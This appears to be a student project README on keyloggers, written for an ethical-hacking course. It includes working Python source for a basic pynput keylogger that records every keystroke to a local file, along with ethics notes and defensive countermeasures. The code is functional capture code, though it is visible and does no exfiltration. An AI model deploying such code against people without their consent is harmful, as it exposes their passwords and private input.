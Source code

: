 📘 Title:
Keystroke Logging: Understanding Keyloggers Through Ethical Hacking

👨‍🎓 Abstract
This project demonstrates the working of a basic keylogger written in Python, built for educational purposes under a Cybersecurity and Ethical Hacking course. A keylogger is a software tool designed to record user keystrokes. While malicious in real-world scenarios, our implementation is a controlled and ethical demonstration, focusing on understanding potential threats, their mechanisms, and defensive strategies.

🎯 Objective
Develop a basic Python keylogger

Understand how keystroke logging works at a technical level

Explore ethical and legal implications of using keyloggers

Identify countermeasures and preventive techniques

🔍 Introduction
Keyloggers are among the most common tools used in cyberattacks to capture sensitive data like passwords, banking information, and personal messages. This project takes an ethical approach to build and test a keylogger for academic understanding. Inspired by the YouTube video "Keylogger using Python", we implemented a simple logger using the pynput library in Python that captures keyboard events and writes them to a log file.

⚙️ Tools & Technologies Used
Tool / Library	Purpose
Python 3.x	Programming Language
pynput		Captures keyboard events
logging module	Records keystrokes to a log file
Git & GitHub	Version control and collaboration
Notepad / VS Code	Code editing and debugging

🧠 Working Principle
The Python keylogger works as follows:

Keyboard Hooking: The pynput.keyboard.Listener is used to monitor and capture each key pressed.

Logging: Captured keystrokes are logged using Python’s logging module into a .txt file with timestamps.

Execution Loop: The program continuously listens and logs until manually stopped (Ctrl + C or force exit).

Output: All logs are saved to keylog.txt in the same directory as the script.

The keylogger does not run in the background, hide its process, or send logs remotely — this keeps it ethically sound and classroom-safe.

🔐 Code Overview
python
Copy code
from pynput import keyboard
import logging

logging.basicConfig(filename="keylog.txt", level=logging.DEBUG, format="%(asctime)s: %(message)s")

def on_press(key):
    try:
        logging.info(f"Key pressed: {key.char}")
    except AttributeError:
        logging.info(f"Special key pressed: {key}")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
on_press() handles both character and special key logging

logging.basicConfig() defines the output format and file location

⚖️ Ethical & Legal Considerations
Keyloggers are illegal when used without consent.

Malicious keyloggers are often used by cybercriminals to steal passwords and personal information.

In corporate security, authorized keyloggers may be used for compliance and monitoring.

In this project, we emphasize ethics: our tool is transparent, visible, and used in a controlled environment.

🛡️ Prevention Techniques
Defense Measure	Explanation
Antivirus Software	Detects and blocks known keyloggers
Behavioral Monitoring	Tracks suspicious activities like keystroke logging
On-Screen Keyboards	Bypass physical keystrokes
Endpoint Security	Prevents unauthorized software installation
User Awareness	Critical for identifying phishing or fake downloads

🧪 Testing & Output
We tested the keylogger in a controlled environment:

Typed input: "Hello123!"

Log Output:

yaml
Copy code
2025-07-20 18:05:32,145: Key pressed: H
2025-07-20 18:05:32,278: Key pressed: e
2025-07-20 18:05:32,400: Key pressed: l
...
The keylog.txt file stored all keystrokes accurately.

📌 Limitations
Only logs keyboard inputs — no screen capture or clipboard monitoring

Works only while the script is running in the terminal

Easily detectable by modern antivirus software

Does not hide itself or auto-start

📚 References
YouTube Video: "Keylogger using Python"

Python Docs: pynput, logging

OWASP Top 10 Security Risks

CERT-In and GDPR for legality of data monitoring

✅ Conclusion
This project offered practical exposure to understanding how simple but dangerous tools like keyloggers operate. By implementing it in a legal, safe, and educational manner, we learned not only the technical aspects but also the serious ethical responsibilities of cybersecurity professionals.